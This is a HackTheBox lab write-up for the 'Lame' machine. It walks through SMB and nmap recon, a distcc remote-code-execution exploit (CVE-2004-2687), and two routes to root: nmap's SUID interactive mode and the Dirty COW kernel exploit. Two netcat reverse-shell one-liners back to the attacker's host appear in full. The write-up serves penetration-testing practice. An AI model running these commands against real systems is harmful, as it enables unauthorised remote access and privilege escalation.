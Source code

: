 ```yaml
---
title: Lame 
categories: [HackTheBox, HTB-Linux]
date: 2022-08-17
tags: [linux-priv-esc/kernel-exploit]
img_path: /Writeups/HackTheBox/Linux/Lame/images/
image:
  src: Pasted%20image%2020220817005744.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```

![]()

# Overview 
HackTheBox Lame marks the beginning of me trying to complete TJNull's OSCP List for HackTheBox.

This machine begins w/ nmap detecting a service exploit for distcc v1 that allows command execution, allowing us to obtain daemon user/shell.

There are 2 privilege escalation techniques used in this machine, a SUID GTFOBin and a kernel exploit.

---

| Column       | Details    |
| ------------ | ---------- |
| Box Name     | Lame       |
| IP           | 10.10.10.3 |
| Points       | -          |
| Difficulty   | Easy       |
| Creator      | [ch4p](https://www.hackthebox.com/home/users/profile/1)         |
| Release Date |  14-March-2018          |


# Recon

## TCP/139,445 (SMB)
### Enum4linux
- Enumerated some users
	```
	┌──(root💀kali)-[~/htb/lame]
	└─# cat enum4linux_users | grep username
	  username: root
	  username: daemon
	  username: bin
	  username: sys
	  username: sync
	  username: games
	  username: man
	  username: lp
	  username: mail
	  username: news
	  username: uucp
	  username: proxy
	  username: www-data
	  username: backup
	  username: list
	  username: irc
	  username: gnats
	  username: libuuid
	  username: dhcp
	  username: syslog
	  username: klog
	  username: sshd
	  username: bind
	  username: postfix
	  username: ftp
	  username: postgres
	  username: mysql
	  username: tomcat55
	  username: distccd
	  username: telnetd
	  username: proftpd
	  username: msfadmin
	  username: user
	  username: service
	  username: nobody
	
	```

### SMBMap
- Found a fileshare `/tmp`
	```
	[+]IP:10.10.10.3:445	Name:10.10.10.3
	Disk	Permissions	Comment
	----	-----------	-------
	print$	NOACCESS	PrinterDrivers
	tmp	    READ,WRITE	ohnoes!
	opt	    NOACCESS	
	IPC$	NOACCESS	IPCService(lameserver(Samba3.0.20-Debian))
	ADMIN$	NOACCESS	IPCService(lameserver(Samba3.0.20-Debian))
	```
	- `/tmp` - `RW`


## TCP/3632
### NMAP
```
PORT     STATE SERVICE REASON         VERSION
3632/tcp open  distccd syn-ack ttl 63 distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
| distcc-cve2004-2687: 
|   VULNERABLE:
|   distcc Daemon Command Execution
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2004-2687
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|       Allows executing of arbitrary commands on systems running distccd 3.1 and
|       earlier. The vulnerability is the consequence of weak service configuration.
|       
|     Disclosure date: 2002-02-01
|     Extra information:
|       
|     uid=1(daemon) gid=1(daemon) groups=1(daemon)
|   
|     References:
|       https://distcc.github.io/security.html
|       https://nvd.nist.gov/vuln/detail/CVE-2004-2687
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2687

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Aug 16 22:28:52 2022 -- 1 IP address (1 host up) scanned in 18.03 seconds
```
- Vulnerable to RCE exploit


# Initial Foothold

## TCP/3632 - distcc RCE exploit w/ Metasploit
1. Launch `msfconsole`
2. Search for `distcc` and use `unix/misc/distcc_exec`
	```
	msf6 use unix/misc/distcc_exec
	msf6 exploit(unix/misc/distcc_exec) > options
	```
3. Set `OPTIONS`
	1. Set `RHOSTS`
	```
	msf6 exploit(unix/misc/distcc_exec) > set RHOSTS $ip
	RHOSTS => $ip
	```
	2. Set `Payload`
	```
	msf6 exploit(unix/misc/distcc_exec) > set payload cmd/unix/reverse
	```
	3. Set `LHOST`
	```
	msf6 exploit(unix/misc/distcc_exec) > set LHOST 10.10.14.2
	LHOST => 10.10.14.2
	```
4. Exploit
	![](Pasted%20image%2020220816230119.png)

## TCP/3632 - distcc RCE exploit w/o Metasploit
1. Google `distcc exploit -lame`
	- To avoid spoilers
2. Found a [github exploit](https://github.com/angelpimentell/distcc_cve_2004-2687_exploit/blob/main/distcc_cve-2004-2687_exploit.py)
3. Exploit
	![](Pasted%20image%2020220816230329.png)
4. This shell is limited, stuck in `/tmp` directory, invoke another reverse shell to obtain a more stable shell
	```
   rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.17 4242 >/tmp/f
	
	┌──(root💀kali)-[~/htb/lame]
	└─# nc -nvlp 4242
	Ncat: Version 7.92 ( https://nmap.org/ncat )
	Ncat: Listening on :::4242
	Ncat: Listening on 0.0.0.0:4242
	Ncat: Connection from 10.10.10.3.
	Ncat: Connection from 10.10.10.3:48838.
	sh: no job control in this shell
	sh-3.2$ id
	uid=1(daemon) gid=1(daemon) groups=1(daemon)
	
	```
5. User Flag
	```
	daemon@lame:/home$ find . 2>/dev/null | grep user
	./makis/user.txt
	
	daemon@lame:/home$ cat ./makis/user.txt
	0bfd0837e923142a01b6ece77f3d6b97
	
	```


# Privilege Escalation

## Root - Via SUID GTFOBin
1. Ran linpeas, found something interesting
	![](Pasted%20image%2020220817002733.png)
	- `nmap` has a [GTFOBins entry](https://gtfobins.github.io/gtfobins/nmap/#shell)
2. Exploit 
	```
	daemon@lame:/tmp$ /usr/bin/nmap --interactive
	nmap> !rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.17 4444 >/tmp/f
	
	```
	![](Pasted%20image%2020220817003037.png)
4. Root obtained
	![](Pasted%20image%2020220817003133.png)

## Root - Via Kernel Exploit
1. Check `kernel` version
	```
	daemon@lame:/tmp$ uname -a
	Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
	```
	- `Linux lame 2.6.24-16-server`
	- Vulnerable to [`2.6.22 < 3.9 - 'Dirty COW'`](https://www.exploit-db.com/exploits/40839)
2. Transfer [exploit](https://www.exploit-db.com/exploits/40839) to target
3. Exploit
	```
	gcc -pthread dirty.c -o dirty -lcrypt
	./dirty
	```
	![](Pasted%20image%2020220817005454.png)
4. SSH w/ `firefart:password`
	![](Pasted%20image%2020220817005556.png)
	